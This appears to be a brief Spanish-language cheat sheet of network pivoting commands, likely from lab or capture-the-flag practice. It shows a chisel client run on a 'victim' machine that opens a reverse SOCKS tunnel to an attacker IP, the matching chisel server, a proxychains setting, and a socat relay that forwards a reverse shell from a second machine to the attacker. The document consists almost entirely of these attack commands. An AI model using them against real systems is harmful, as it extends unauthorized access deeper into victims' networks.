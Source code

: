 # Comandos interesantes de PICOTING



## CHISEL
cliente , en la maquina victima 1
<pre>
./chisel client 192.168.168.224:1234 R:socks
</pre>

Servidor en maquina atacante. 
<pre>
./chisel server --reverse -p 1234
</pre>

Como se va por socks hay que habilitar socks5 en /etc/proxychains.conf
<pre>
socks5  127.0.0.1 1080
</pre>


## SOCAT
Si lanzamos una reverse shell de la maquina 2 a la maquina 1 podemos redirigir con sockat el trafico de la maquina 1 a la atacante
<pre>
socat TCP-LISTEN:4646,fork TCP:192.168.168.224:4646
</pre>
